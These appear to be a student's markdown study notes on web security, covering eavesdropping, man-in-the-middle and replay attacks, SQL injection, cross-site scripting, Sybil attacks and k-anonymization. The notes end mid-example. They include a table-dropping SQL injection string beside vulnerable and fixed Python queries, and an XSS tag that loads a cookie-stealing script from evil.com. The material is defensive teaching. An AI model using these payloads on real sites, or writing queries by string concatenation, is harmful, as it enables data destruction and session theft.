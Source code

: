 [[2023-05-11]] #Webpage #WebSecurity 

### Network Attacks
Network attacks happen as information travels between client and server. There are briefly three kinds of attacks we are going to cover.
- **Eavesdropping**
- **Man-in-the-middle** (MITM)
	- E.g. provision of fake Amazon public key
		- Solution: HTTPS with **[[5 Encryption#^e0821c|certificate authorities]]**
- **Replay**
	- Memorize a message and send it multiple times
	- E.g. memorize bill-paying message to fake the process
		- Solution: make every message **different**: (1) incrementing number, (2) random number (only once)

---

### Web Attack
While network attacks pertain to information in transit, web attacks are related to the design of our `flask` App. We will again discuss three main types of web attacks.

#### SQL Injection
The following could happen if we backend code like this
```python
username = flask.request.form["username"]

query =  
	"SELECT hash "  
	"FROM passwords "  
	"WHERE user = '" + username + "'"
```

If a client deliberately passed in a string: `; DROP TABLE PASSWORDS --`, the SQL query will drop the entire database we have back there!

Instead, it's a good habit to **separate code from data**:
```python
db.execute( "SELECT hash " 
		   "FROM passwords " 
		   "WHERE user = ?", (username,))
```

#### Cross-Site Scripting
If you allow users to post comments or other **text**, they can put **HTML tags**.
- `<script>` tag loads **code** that will run in other users' browsers

For instance,
```html
Nice picture! <script src="http://evil.com/steal_cookies.js" />
```

#### Sybil
One (1) real-life user pretends to be **multiple** online users.
- Get around bans
- Vote more than once
- Fake reviews

To protect against this, we could
- Require real phone numbers
- CAPTCHAS

---

### Database Anonymity
Data are sometimes a liability rather than an asset. There are three main methods to prevent data leakage.
- Store only the data you need
- K-anonymization
- Differential privacy

#### K-Anonymization
The power of “hiding in the crowd.” Specifically, a dataset is **k-anonymous** if quasi-identifiers for each person in the dataset are **identical** to at least $k – 1$ other people also in the dataset.

```ad-example
If we have a dataset of students' graduation year, major, and GPA, what we could do to make it 2-anoynomous is to change the graduation year (identifier) to a range of years so that 
```